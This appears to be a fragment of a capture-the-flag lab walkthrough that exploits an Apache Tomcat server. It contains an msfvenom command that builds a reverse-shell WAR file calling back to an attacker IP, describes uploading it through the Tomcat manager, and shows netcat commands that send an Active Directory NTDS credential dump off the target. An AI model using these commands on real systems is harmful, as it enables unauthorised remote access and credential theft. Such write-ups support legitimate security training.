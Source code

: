 I created a reverse shell selecting a java payload and output the file to rshell.war

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.29 LPORT=4200 -f war > rshell.war
```

I then uploaded rshell.war via the Tomcat Web Application Manager and received shell as user 'tomcat'

![image](assets/82165161-eea1b680-9881-11ea-91af-608d79ce661d.png)

I found an interesting folder called pentest_data when looking through tomcat's home folder. The folder contained an active directory dump that looked like it was generated by Metasploit's psexec_ntdsgrab module. I transferred them to my machine via netcat.

> Receiver : nc -l -p 1234 > out.file / Sender : nc -w 3 [destination] 1234 < out.file

```
nc -w 3 10.10.14.5 4201 < 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
nc -l -p 4201 > ntds.dit
nc -w 3 10.10.14.5 4201 < 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
nc -l -p 4201 > ntds.bin
```

![image](assets/82165546-6fad7d80-9883-11ea-875c-9c0f51ed4aa3.png)
